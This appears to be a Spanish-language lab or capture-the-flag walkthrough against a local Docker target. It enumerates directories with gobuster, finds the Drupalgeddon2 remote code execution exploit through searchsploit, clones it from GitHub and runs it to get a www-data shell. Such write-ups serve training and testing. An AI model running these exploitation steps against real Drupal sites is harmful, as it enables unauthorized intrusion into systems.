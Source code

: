 ### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,sh,txt,html,js,php.back
```

- **Hallazgos**:
```bash                                           
/index.php            (Status: 200) [Size: 8860
```

Tenemos la web principal:
```bash
http://172.17.0.2/index.php
```

### Uso de exploit `[ droopescan ]`
Sabiendo que tenemos una version de **drupal** desactualizada, Procedemos a buscar un exploit:
```bash
searchsploit drupal 8

Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution | php/webapps/44449.rb
```

Aqui podemos acceder al proyecto en **github** para poder clonarlo y ejecutarlo correctamente: [Drupalgeddon2](Ihttps://github.com/dreadlocked/Drupalgeddon2)
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git --depth=1 
cd Drupalgeddon2
sudo gem install highline
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
En el proyecto indica su modo de uso para poder aplicar esta herramienta para explotar el **CMS**
```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target> [--verbose] [--authentication]
       ruby drupalgeddon2.rb https://example.com
```

### Ejecucion del Ataque
```bash
# Comandos para explotación
ruby drupalgeddon2.rb http://172.17.0.2
```

### Intrusion
Gracias al exploit **drupalgeddon2.rb** obtenemos una sesion como el usuario **www-data**

---
